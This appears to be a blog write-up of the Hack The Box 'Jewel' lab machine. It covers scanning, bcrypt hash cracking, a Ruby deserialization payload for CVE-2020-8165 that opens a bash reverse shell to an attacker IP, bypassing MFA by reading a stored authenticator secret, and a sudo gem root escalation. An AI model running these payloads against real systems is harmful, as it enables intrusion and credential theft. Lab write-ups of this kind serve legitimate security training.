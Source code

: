 ```yaml
---
layout: post
title:  "Hack The Box - Jewel Writeup"
date:   2021-02-13 06:00:00
categories: "htb"
author: Ryan
---
```


*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![Header](../images/HTB-Jewel/Header.png)

Jewel is an Medium level linux machine. Based on the creator and community statistics, we'll likely have a decent amount of enumeration to get through, while working off of existing CVEs against a somewhat realistic environment.  
![Statistics](../images/HTB-Jewel/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -Pn -p22,8000,8080 -sC -sV -oA Extracts/Jewel 10.10.10.211`  
![Nmap](../images/HTB-Jewel/nmap.png)

* **Port 22 - SSH**: Pretty standard port to see open on linux boxes, we can try to leverage this later on if we find credentials or private key.
* **Port 8000 - HTTP**: A basic websever hosting what appears to be an instance of [Gitweb](https://git-scm.com/book/en/v2/Git-on-the-Server-GitWeb). We should look for source code here.
* **Port 8080 - HTTP**: Another webserver, but this one is running a small blog off of an installation of [Phusion Passenger](https://www.phusionpassenger.com/).

We'll also want to add Jewel.htb to our hosts file.

### Blog
Navigating the Blog on port 8080, we're able to identify a couple of existing users: `Bill` and `Jennifer`. We're also able to create our own user, but do not appear to have the ability to post content of our own. We can, however, edit our account username.  
![Edit User](../images/HTB-Jewel/Info_Blog.png)

### Gitweb
Moving on to the Gitweb content hosted on port 8000, we appear to have open read-only access to the entire blog project repository. After searching through many of the files, we come across the password hashes belonging to both Bill and Jennifer. Based on the `$2a$` at the start of the hash, we know that they're protected using the bcrypt hashing algorthm. This is a very strong and time consuming hash to break, but we can let it run against the `rockyou.txt` list for a bit while we continue into other areas.

`>> ./hashcat.exe -a0 -m3200 hash.txt rockyou.txt --username`

### Gemfile
In reference to the title of this box, there's a very strong possibility that our foothold will be something to do with Ruby on Rails. The Gemfile can tell us a lot about the project, including any vulnerabilities within the packages being used. By using tools such as [Hakiri](https://hakiri.io/), we're able to identify a range of vulnerabilities.  
![Gemfile Vulns](../images/HTB-Jewel/Info_Gemfile.png)

## Foothold
Reading through our findings, we eventually come across some interesting information regarding [CVE-2020-8165](https://github.com/masahiro331/CVE-2020-8165). It looks like this may be our way in.

### Generating The Payload
Working through the steps provided in the above repo, we're able to put together a payload that should get us a shell onto the box.  
```
code = '`bash -c "bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"`'
erb = ERB.allocate
erb.instance_variable_set :@src, code
erb.instance_variable_set :@filename, "1"
erb.instance_variable_set :@lineno, 1
payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
puts "Payload"
require 'uri'
puts URI.encode_www_form(payload: payload)
```

### Reverse Shell
First thing we'll do is set up our listener on the port we provided in the payload generation.  
`>> nc -lvnp 4444`

Going back to our blog post account, there was one area we were able to submit data: Edit User Account. When we try to submit our payload through the UI, we end up with an error due to the input being too long. But by capturing our request through Burpsuite, we're able to manipulate the data after validation takes place.  
![Burp Proxy](../images/HTB-Jewel/Foothold_Burp.png)  

Refreshing the blog site results in triggering our code.  
![Reverse Shell](../images/HTB-Jewel/Foothold_Shell.png)

### User Flag
![User Flag](../images/HTB-Jewel/User_Flag.png)

## Privilege Escalation
With a direct connection into the box, the first thing we'll do is upgrade our shell:  
`>> python -c "import pty;pty.spawn('/bin/bash')"`  
`>> export TERM=xterm;`  

### Backups
Looking around the box, we come across a backup SQL script, again discovering bcrypt password hashes for the Bill and Jennifer users. While we were unsuccessful in cracking the hashes on our first go around, these hashes are different and may be weaker than before.  

Password Hashes:  
`jennifer:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO`  
`bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW`  

`>> ./hashcat.exe -a0 -m3200 hash.txt rockyou.txt --username`  

![Hash Cracking](../images/HTB-Jewel/PrivEsc_Hash.png)

Looks like Bill's password is spongebob. Let's see what he can run as sudo.  
![Sudo Fail](../images/HTB-Jewel/PrivEsc_Sudo1.png)  

### Google Authenticator
A bit different than what we normally encounter, Bill's account is protected by multi-factor authentication. We'll need to find out what he's using and how to get around it.

Back in the /home/bill directory, there's a hidden .google_authenticator configuration file we're able to extract a key from: `2UQI3R52WFCLE6JTLDCSJYMJH4`. Configuring the Google Authenticator plugin for Chrome, we're able to successfully generate a verification token.  

![Google Authenticator](../images/HTB-Jewel/PrivEsc_Authenticator.png)  

### Sudo Gem
Now that we've got Bill's credentials and MFA token, we're able to see that he has the ability to run Ruby's `gem` command as root.  

![Sudo Success](../images/HTB-Jewel/PrivEsc_Sudo2.png)  

Referencing the `gem` section of [GTFOBins](https://gtfobins.github.io/gtfobins/gem/), we're shown how to leverage our access and escalate to root.  
`>> sudo gem open -e "/bin/sh -c /bin/sh" rdoc`  
![Privilege Escalation](../images/HTB-Jewel/PrivEsc_Gem.png)  

### Root Flag
![Root Flag](../images/HTB-Jewel/Root_Flag.png)  